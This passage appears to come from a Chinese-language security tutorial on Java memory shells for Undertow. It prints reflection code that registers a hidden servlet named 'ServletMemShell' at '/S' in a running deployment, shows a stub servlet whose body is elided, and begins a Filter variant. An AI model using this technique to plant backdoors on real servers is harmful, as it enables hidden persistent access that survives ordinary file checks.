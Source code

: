 内存马注册代码如下：

```java
Object o \= getCurrentThreadObj("io.undertow.servlet.handlers.ServletRequestContext");  
Deployment deployment \= (Deployment) getfieldobj(o,"deployment");  
DeploymentInfo deploymentInfo \= deployment.getDeploymentInfo();  
​  
ServletInfo servletInfo \= new ServletInfo("ServletMemShell", MemServlet.class).addMapping("/S");  
deploymentInfo.addServlet(servletInfo);  
deployment.getServlets().addServlet(servletInfo);
```

其中getfieldobj

```java
public Object getfieldobj(Object obj, String fieldname) throws NoSuchFieldException, IllegalAccessException {  
        try{  
            Field field \= obj.getClass().getDeclaredField(fieldname);  
            field.setAccessible(true);  
            Object fieldobj \= field.get(obj);  
            return fieldobj;  
        }catch (NoSuchFieldException e) {  
            Field field \= obj.getClass().getSuperclass().getDeclaredField(fieldname);  
            field.setAccessible(true);  
            Object fieldobj \= field.get(obj);  
            return fieldobj;  
        }  
    }
```

MemServlet.class如下：

```java
public static class MemServlet extends HttpServlet {  
        @Override  
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {  
            res.setContentType("text/html;charset=utf-8");  
            res.getWriter().write("MemServlet\\n");  
            //......  
        }  
    }
```

验证

![image-20240816195656623](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-cf4fb580b7fc011a4b3f5a75108d4d342c7237a9.png)

### Filter

同样的套路，调试分析，来到第一个doFilter这里

![image-20240816201215047](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-7958b7cbe3867efeb917259acc398471b92956c2.png)
